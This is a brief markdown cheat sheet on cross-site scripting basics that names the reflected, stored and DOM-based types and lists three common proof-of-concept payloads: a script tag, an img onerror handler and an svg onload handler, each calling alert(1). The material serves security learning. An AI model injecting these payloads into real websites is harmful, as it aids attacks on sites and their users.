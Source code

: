 
```markdown
# 🧪 XSS Basics

## Types:
- Reflected
- Stored
- DOM-Based

## Common Payloads:
```js
<script>alert(1)</script>
<img src=x onerror=alert(1)>
"><svg onload=alert(1)>
